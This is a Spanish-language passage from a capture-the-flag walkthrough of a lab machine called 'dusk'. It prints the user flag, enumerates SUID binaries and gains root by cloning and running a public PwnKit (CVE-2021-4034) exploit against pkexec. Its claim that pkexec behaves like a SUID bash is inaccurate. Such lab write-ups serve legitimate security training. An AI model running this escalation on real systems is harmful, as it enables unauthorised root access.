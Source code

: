 Si nos vamos a la `/home` del usuario `dusk` leeremos la flag...

> user.txt (flag1)

```
08ebacf8f4e43f05b8b8b372df24235b
```

Si ponemos el siguiente comando...

```shell
www-data@dusk:/home/dusk$ find / -type f -perm -4000 -ls 2>/dev/null
   268427     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   145522     52 -rwsr-xr--   1 root     messagebus    51184 Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   148913    428 -rwsr-xr-x   1 root     root         436552 Oct  6  2019 /usr/lib/openssh/ssh-keysign
   150647     20 -rwsr-xr-x   1 root     root          18888 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   167366    156 -rwsr-xr-x   1 root     root         157192 Oct 12  2019 /usr/bin/sudo
   134602     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 /usr/bin/newgrp
   131132     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 /usr/bin/chsh
   131134     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 /usr/bin/gpasswd
   131136     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 /usr/bin/passwd
   135083     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /usr/bin/mount
   135085     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /usr/bin/umount
   131131     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 /usr/bin/chfn
   150645     24 -rwsr-xr-x   1 root     root          23288 Jan 15  2019 /usr/bin/pkexec
   134749     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /usr/bin/su
```

Veremos que hay una linea interesante...

```
150645     24 -rwsr-xr-x   1 root     root          23288 Jan 15  2019 /usr/bin/pkexec
```

Esto actua como un `/bin/bash` con permisos `SUID` por lo que si hacemos lo siguiente podremos ser `root`...

URL = https://github.com/Almorabea/pkexec-exploit

```shell
git clone https://github.com/Almorabea/pkexec-exploit.git
```

Con esto nos clonamos el repositorio de `GitHub` para poder utilizarlo en el servidor...

```shell
#Entramos al directorio
cd pkexec-exploit/

#Le ponemos permisos de ejecuccion
chmod +x CVE-2021-4034.py
```

```shell
python3 CVE-2021-4034.py
```
